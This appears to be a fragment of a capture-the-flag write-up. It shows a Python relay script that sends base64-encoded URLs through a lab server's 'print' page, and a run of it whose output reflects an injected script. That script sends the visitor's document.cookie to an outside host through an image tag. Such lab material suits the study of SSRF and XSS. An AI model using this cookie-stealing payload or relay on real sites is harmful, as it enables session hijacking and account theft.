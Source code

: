 ```python
import requests
import sys
from base64 import b64encode

BASE_URL = "http://10.13.37.13/?page=print&url="

def get_it(url):
    s = requests.session()
    url = b64encode(url)
    res = s.get(BASE_URL + url)
    return res

if __name__ == "__main__":
    assert len(sys.argv) == 2, "need argv[1]"
    x = get_it(sys.argv[1])
    print x.request.url
    print
    print x.text
```

```
$ python relay.py "http://10.13.37.13.f0rki.at/xss.html"
http://10.13.37.13/?page=print&url=aHR0cDovLzEwLjEzLjM3LjEzLmYwcmtpLmF0L3hzcy5odG1s

<!DOCTYPE html>
<html lang="en">
  <head>
[...]

    <div class="container">

      <div class="starter-template">
        <h1></h1>
        <p class="lead"><html>
<script>
document.write("<img src=\"http://f0rki.at/" + document.cookie + "\" />");
</script>
</html>
</p>
      </div>

    </div><!-- /.container -->


    <!-- Bootstrap core JavaScript
    ================================================== -->
    <!-- Placed at the end of the document so the pages load faster -->
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.4/jquery.min.js"></script>
    <script src="http://10.13.37.13/public/bootstrap.min.js"></script>
  </body>
</html>
```
